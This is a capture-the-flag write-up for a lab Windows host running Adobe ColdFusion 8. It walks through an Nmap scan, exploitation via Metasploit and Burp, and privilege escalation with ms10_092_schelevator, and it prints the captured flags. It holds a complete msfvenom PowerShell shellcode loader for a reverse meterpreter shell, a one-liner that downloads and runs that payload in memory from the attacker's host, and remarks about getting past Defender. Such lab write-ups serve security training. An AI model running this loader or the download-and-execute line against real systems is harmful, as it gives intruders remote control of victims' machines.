# Scanning 

## Nmap 

- Ports Open

```python
Discovered open port 135/tcp on 10.10.10.11 (Remote Procedure Call (RPC))
Discovered open port 8500/tcp on 10.10.10.11 # Don't know what it is
Discovered open port 49154/tcp on 10.10.10.11 (Remote Procedure Call (RPC))
```

- Full Scan

```bash
# Nmap 7.94SVN scan initiated Wed May 14 15:27:15 2025 as: nmap -sC -sV -vvv -T5 -oA nmap/initials -Pn 10.10.10.11
Nmap scan report for 10.10.10.11 (10.10.10.11)
Host is up, received user-set (0.19s latency).
Scanned at 2025-05-14 15:27:16 IST for 170s
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE REASON  VERSION
135/tcp   open  msrpc   syn-ack Microsoft Windows RPC
8500/tcp  open  fmtp?   syn-ack
49154/tcp open  msrpc   syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 14 15:30:06 2025 -- 1 IP address (1 host up) scanned in 171.15 seconds
```

# Enumeration

- Web Server (Adobe ColdFusion web server)





- Adobe ColdFusion 8 Login Panel 



# Exploitation

- Trying 1st Payload using Metasploit







- But Failed!!!!!!!!!!!

- Started Debugging Using Burp with Proxy and found one problem: Metasploit only waits for 5 sec and then it gives error and shuts the listener, but this exploit takes 20 to 30 sec for getting shell. So we have to forward the POST request to proxy and take it into repeater, then shut the Metasploit listener off and start a netcat listener with the same port and send the request through repeater. Then we got the shell.  



- Now the problem is that I have a normal user/service shell which is kind of primitive in nature and we need a meterpreter shell. So for that, we use msfconsole to create another PowerShell payload which will be invoked from the shell we got.

- After Creating that, we transport it to the victim machine using a Python HTTP server and invoke it directly in memory without leaving a file on disk. 

- This is not that easy because Defender keeps removing it, so this is just the success part, although you can see the number of attempts. 😗

- Creating Shell.ps1

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.10 LPORT=1337 -f psh -o shell.ps1
```

- Payload: shell.ps1

```powershell
$xVgZtpUmbJgsKj = @"
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
"@

$JoDMBHBRFCPbBq = Add-Type -memberDefinition $xVgZtpUmbJgsKj -Name "Win32" -namespace Win32Functions -passthru

[Byte[]] $oYFigiQwf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2,0x51,0x56,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x4d,0x31,0xc9,0x48,0xf,0xb7,0x4a,0x4a,0x48,0x8b,0x72,0x50,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x66,0x81,0x78,0x18,0xb,0x2,0xf,0x85,0x72,0x0,0x0,0x0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x56,0x4d,0x31,0xc9,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x4b,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x0,0x0,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x1,0x0,0x0,0x49,0x89,0xe5,0x49,0xbc,0x2,0x0,0x5,0x39,0xa,0xa,0x10,0xa,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x7,0xff,0xd5,0x4c,0x89,0xea,0x68,0x1,0x1,0x0,0x0,0x59,0x41,0xba,0x29,0x80,0x6b,0x0,0xff,0xd5,0x6a,0xa,0x41,0x5e,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xa,0x49,0xff,0xce,0x75,0xe5,0xe8,0x93,0x0,0x0,0x0,0x48,0x83,0xec,0x10,0x48,0x89,0xe2,0x4d,0x31,0xc9,0x6a,0x4,0x41,0x58,0x48,0x89,0xf9,0x41,0xba,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7e,0x55,0x48,0x83,0xc4,0x20,0x5e,0x89,0xf6,0x6a,0x40,0x41,0x59,0x68,0x0,0x10,0x0,0x0,0x41,0x58,0x48,0x89,0xf2,0x48,0x31,0xc9,0x41,0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x89,0xc3,0x49,0x89,0xc7,0x4d,0x31,0xc9,0x49,0x89,0xf0,0x48,0x89,0xda,0x48,0x89,0xf9,0x41,0xba,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x0,0x40,0x0,0x0,0x41,0x58,0x6a,0x0,0x5a,0x41,0xba,0xb,0x2f,0xf,0x30,0xff,0xd5,0x57,0x59,0x41,0xba,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x49,0xff,0xce,0xe9,0x3c,0xff,0xff,0xff,0x48,0x1,0xc3,0x48,0x29,0xc6,0x48,0x85,0xf6,0x75,0xb4,0x41,0xff,0xe7,0x58,0x6a,0x0,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5


$XQXihJenTp = $JoDMBHBRFCPbBq::VirtualAlloc(0,[Math]::Max($oYFigiQwf.Length,0x1000),0x3000,0x40)

[System.Runtime.InteropServices.Marshal]::Copy($oYFigiQwf,0,$XQXihJenTp,$oYFigiQwf.Length)

$JoDMBHBRFCPbBq::CreateThread(0,0,$XQXihJenTp,0,0,0)
```

- Transporting Shell.ps1

```powershell
powershell -Command 
"$c=new-object net.webclient;
iex $c.downloadstring('http://10.10.16.10:8000/shell.ps1')"
```

- Metasploit Payload and Instance

```
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 10.10.16.10
set lport 1337
run
```





- And we got our first flag!!

```lua
27c8ead73af56159c49fec2e895bda01
```

# Post Exploitation

- Now comes the post exploitation part, so for that we used Metasploit's default suggester which gives potential modules.



```
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```



- These are x86 version meterpreter exploits but we want x64 version, so we have to migrate to an x64 process to do this.
- And for this, we have used the conhost.exe process.



- Now after doing the same exploit suggester, we found this to be vulnerable. So we used it and got the system shell. 👍

```
use exploit/windows/local/ms10_092_schelevator
set SESSION 1
set lhost 10.10.16.10
```





- And finally got the root shell.



```lua
960b5b48915c3d781eb275a5f8965e6f
```